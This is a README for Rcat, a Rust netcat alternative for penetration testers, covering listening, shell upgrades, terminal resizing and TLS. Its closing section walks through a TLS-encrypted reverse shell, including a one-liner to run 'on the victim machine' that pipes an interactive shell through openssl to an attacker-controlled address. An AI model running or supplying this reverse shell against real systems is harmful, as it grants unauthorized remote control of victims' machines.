

<div align="center">

# Rcat
### A better netcat for hackers

</div>

### Overview

__Rcat__ is a modern _netcat_ written in Rust, packed with features for hackers.


Here we listen on the port `tcp:9001`, and recieve an HTTP request made with `curl`.

### Install

```bash
git clone git@github.com:0xfalafel/rcat.git
cargo install --path .
```

### Features

#### Familiar syntax

Rcat keeps a syntax similar to _netcat_. You already know how to use it.

* `-l` to listen.
* `-u` for udp.

#### Shell Upgrade

Rcat can __upgrade your shells__ with the `--pwn` option.  
With an upgraded shell, you can use shortcuts like `Ctrl + C`, clear the terminal with `clear` or `Ctrl + L`, etc. It's like having an SSH connection.
No need to [type 7 commands](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) every type you obtain a reverse shell.


##### Resize

Unless you use the `-R` option, the remote terminal will automaticaly be resized when you change the size of your terminal.  



(Rcat sends a _SIGTSTP_, size the terminal with the `stty` command, and use `fg` to restore the application running.)

#### TLS support

Support of __TLS__ with `-t` or `--tls`.  
Here we do an HTTPS request. We use `-t` to establish a _TLS connection_, and `-c` to replace newlines (`\n`) with _CRLF_ newlines (`\r\n`) as required by the HTTP protocol.


  
## Encrypted Reverse shell

With TLS support, let's see how we can do an __TLS encrypted reverse shell__. Without installing any new tools on the victim.

If possible, you should probaby use a signed certificate (with [let's encrypt](https://certbot.eff.org/instructions) for example), but for now let's use a self-signed certificate.

### Generate Key and Certificate

Let's generate a __self-signed certificate__ with `openssl`.

```bash
openssl genrsa -out private-key.pem 2048
openssl req -new -x509 -key private-key.pem -out my.cert -days 365
```

### Reverse Shell

Armed with this, let's create a _listener_ that supports TLS.

```bash
rcat -l 9001 -t --cert my.cert --key private-key.pem --pwn
```

And execute the following command on the victim machine:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| openssl s_client -connect YOUR_IP:9001 >/tmp/f
```
